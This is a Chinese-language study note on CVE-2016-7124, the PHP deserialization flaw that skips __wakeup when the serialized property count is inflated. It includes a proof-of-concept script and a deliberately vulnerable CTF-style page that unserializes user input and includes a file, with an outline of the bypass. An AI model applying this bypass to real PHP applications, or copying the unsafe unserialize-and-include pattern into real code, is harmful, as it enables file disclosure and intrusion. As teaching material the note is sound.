

---
tags:
  - PHP
  - serialize
Date: 2026-01-31
---
### 漏洞来源：CVE-2016-7124
### 版本：PHP5<5.6.25 & PHP7<7.0.10
### 产生原因
如果wakeup方法存在，调用反序列化之前会先调用wakeup，但是序列化字符串中表示对象的`属性个数`的值大于真实数目的时候，会跳过wakeup执行

复现
php版本：5.4.45
首先序列化原始实例化对象
然后手动篡改属性数量后反序列化，检查属性age的值
利用析构函数触发来表明漏洞存在

```php
<?php
class test{
    public $name = 'Guc';
    public $age = 18;

    public function __wakeup()
    {
        echo ">> [失败] __wakeup 执行了！说明没绕过。\n";
        $this->age += 1;
    }

    public function __destruct()
    {
        echo ">> [成功] __destruct 执行了！当前 Age: " . $this->age . "\n";
        if ($this->age == 18) {
            echo "   (恭喜！Age 保持 18，说明 wakeup 没跑，漏洞利用成功！)\n";
        }
    }
}

$a = new test();
$temp = serialize($a);

// 此时输出类似: O:4:"test":2:{...}
echo "原始字符串: " . $temp . "\n";

// 漏洞核心：把属性数量 2 改为 3
$payload = str_replace('test":2:', 'test":3:', $temp);

echo "篡改字符串: " . $payload . "\n\n";
$b = unserialize($payload);
?>
```



### 例题演示
```php
<?php  
error_reporting(0);  
class secret{  
    var $file='index.php';  
  
    public function __construct($file){        $this->file=$file;  
    }  
  
    function __destruct(){  
        include_once($this->file);  
        echo $flag;  
    }  
  
    function __wakeup(){        $this->file='index.php';  
    }  
}  
$cmd=$_GET['cmd'];  
if (!isset($cmd)){    highlight_file(__FILE__);  
}  
else{  
    if (preg_match('/[oc]:\d+:/i',$cmd)){  
        echo "Are you daydreaming?";  
    }  
    else{        unserialize($cmd);  
    }  
}  
//sercet in flag.php  
?>
```
### 分析
1.首先在页面判断cmd是否提交，如果提交进行下一个if判断，正则匹配不允许出现o:0-9的形式
2.绕过过滤后，反序列化提交内容

### 问题
1.反序列化一定触发wakeup
2.需要触发析构函数

### 解决
1.file属性需要赋值flag.php
2.利用wakeup漏洞进行绕过